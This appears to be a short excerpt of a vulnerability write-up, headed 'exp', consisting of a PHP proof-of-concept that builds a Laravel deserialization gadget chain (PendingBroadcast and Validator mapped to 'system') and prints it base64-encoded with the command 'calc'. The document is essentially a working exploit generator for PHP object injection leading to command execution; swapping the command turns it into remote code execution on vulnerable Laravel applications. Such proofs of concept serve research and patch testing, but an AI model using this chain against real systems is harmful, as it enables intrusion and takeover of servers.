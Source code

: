 <img src="./images/poc-2-1.png" alt="">

### exp
```php
<?php
namespace Illuminate\Validation {
    class Validator {
       public $extensions = [];
       public function __construct() {
            $this->extensions = ['' => 'system'];
       }
    }
}

namespace Illuminate\Broadcasting {
    use Illuminate\Validation\Validator;
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct($cmd)
        {
            $this->events = new Validator();
            $this->event = $cmd;
        }
    }
    echo base64_encode(serialize(new PendingBroadcast('calc')));
}
?>
```
